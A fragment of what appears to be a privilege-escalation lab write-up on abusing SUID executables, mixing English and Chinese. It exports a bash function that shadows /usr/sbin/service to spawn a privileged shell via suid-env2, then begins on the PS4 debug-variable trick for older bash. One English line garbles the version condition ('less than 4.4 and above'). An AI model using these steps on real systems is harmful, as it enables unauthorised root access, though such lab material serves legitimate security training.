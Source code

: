 ```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

**Run the suid-env2 executable to gain a root shell:**

```
/usr/local/bin/suid-env2
```

**![](img/b0ba84495d8b06d17ba005beb23349ad.png)**

# **Task 15: SUID / SGID Executables -Abusing Shell Features (#2)**

**so, in bash versions less than 4.4 and above, we could define the PS4 variable to display an extra prompt for debugging statements in debugging mode.**

**![](img/07f847c0637013cef8274160969fa306.png)**

***注意:这在 Bash 版本 4.4 和更高版本上不起作用。***

**在调试模式下，Bash 使用环境变量 **PS4** 来显示调试语句的额外提示。**
